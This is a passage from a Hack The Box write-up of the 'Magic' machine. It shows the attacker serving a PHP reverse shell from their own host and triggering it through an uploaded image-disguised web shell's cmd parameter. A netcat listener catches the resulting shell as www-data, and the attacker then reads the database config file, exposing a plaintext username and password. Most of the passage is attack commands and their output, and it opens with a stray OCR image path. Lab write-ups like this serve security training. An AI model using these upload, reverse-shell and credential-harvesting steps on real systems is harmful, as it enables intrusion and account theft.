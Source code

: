 ```
```
```
kali@kali:~/htb/boxes/magic/www$ sudo python3 -m http.server 9002
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 9002 (http://0.0.0.0:9002/) ...
10.10.10.185 - - [23/Aug/2020 01:23:00] "GET /shell.php HTTP/1.1" 200 -
```
Cool. Uploaded. You can also check with the `ls -la /dev/shm` command. 3:
```
kali@kali:~/htb/boxes/magic/www$ sudo nc -lvnp 4444
listening on [any] 4444 ...

```
```
http://magic.htb/images/uploads/batman.php.jpeg?cmd=php%20/dev/shm/shell.php
```
```
kali@kali:~/htb/boxes/magic/www$ sudo nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.185] 58926
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:27:05 up 34 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 

```
Awesome. Actually at any step when the web server deleted your malicious image, simply have another tab on standby to re-upload. :).

### Shell as www-data
Look around, see that there's a user called `theseus` on the box:
```
$ ls -l /home
total 4
drwxr-xr-x 15 theseus theseus 4096 Apr 16 02:58 theseus
```
So the aim is to become `theseus`. Since we're `www-data`, let's abuse our privileges and look around the webroot.
```
$ ls -l /var/www/Magic/
total 40
drwxrwxr-x 6 www-data www-data 4096 Jun  6  2019 assets
-rw-r--r-- 1 www-data www-data  881 Oct 16  2019 db.php5
drwxr-xr-x 4 www-data www-data 4096 Apr 14 05:04 images
-rw-rw-r-- 1 www-data www-data 4528 Oct 22  2019 index.php
-rw-r--r-- 1 www-data www-data 5539 Oct 22  2019 login.php
-rw-r--r-- 1 www-data www-data   72 Oct 18  2019 logout.php
-rw-r--r-- 1 www-data www-data 4520 Oct 22  2019 upload.php
```
Now.. what would be interesting... eh, what's that you say??? Of course, it's the `db.php5` file!
```
$ cat /var/www/Magic/db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';

    private static $cont  = null;

```